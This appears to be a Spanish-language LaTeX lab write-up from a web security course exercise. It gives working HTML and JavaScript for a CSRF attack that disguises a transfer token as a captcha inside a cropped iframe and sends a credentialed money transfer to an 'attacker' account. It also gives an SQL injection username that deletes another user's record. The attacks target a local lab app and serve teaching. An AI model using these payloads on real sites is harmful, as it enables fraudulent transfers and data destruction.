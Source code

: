\documentclass[a4paper,12pt]{article}
\begin{document}
Se hace una petición \textit{POST} a la página de transacciones con destino la cuenta del atacante y cantidad 10.

\subsection{Cross-Site Request Forgery With User Assistance}
El objetivo del ataque es hacer una transacción mediante una página segura en donde se le pide al usuario que dijite una token
que aparece en su pantalla. La solución esta en los siguientes archivos:

\begin{lstlisting}
<html>
  <head>
    <title>Legitimate General Interest Web Page</title>
  </head>
  <body>
  <style type="text/css">
  iframe {
  	 width: 300;
     height: 100%;
     border: none;
  }
</style>
	<h1>Verificacion Capcha..</h1>
	Ingrese el texto que aparece en la imagen para verificar que no es un bot y proceder a la siguiente pagina: </br>
	<input id="token" type="text">
	<button onClick="fun()">Confirmar</button> </br>
    <iframe src="bp2.html" scrolling="no"></iframe>
    <script>
    	function fun(){
    		var token = document.getElementById("token").value;
    		window.location = "http://crypto.stanford.edu/cs155/";
			var req = new XMLHttpRequest();
			var params = "destination_username=attacker&quantity=10&tokeninput=" + token
			req.open("POST","http://localhost:3000/super_secure_post_transfer",false);
			req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
			req.withCredentials = true;
			req.send(params);
    	}
	</script>
  </body>
</html>
\end{lstlisting}

\begin{lstlisting}
<html>
<body>
<style type="text/css">
  iframe {
  height: 94%;
  width: 100%;
  margin-top: -205%;
  border: none;
  }
</style>
<iframe src="http://localhost:3000/super_secure_transfer" scrolling="no"></iframe>
</body>
</html>
\end{lstlisting}


La idea es mostrar sólo la parte del token como si fuera un capcha. Se necesitan de dos archivos para acomodar bien la imagen
y que no parezca falsa. El usuario no sabe nada de lo que esta pasando.

\subsection{Little Bobby Tables (aka SQL Injection)}
El objetivo del ataque es eliminar el usuario \textit{user3} con SQL Injection creando un nuevo usuario con el ataque.
El usuario que se tiene que crear para que el ataque funcione es el siguiente: \textit{user3' or id = '5}. Al intentar eliminar
este usuario, se van a eliminar el \textit{user3} y ese usuario recién creado. También es posible eliminar toda la base de datos.
\end{document}
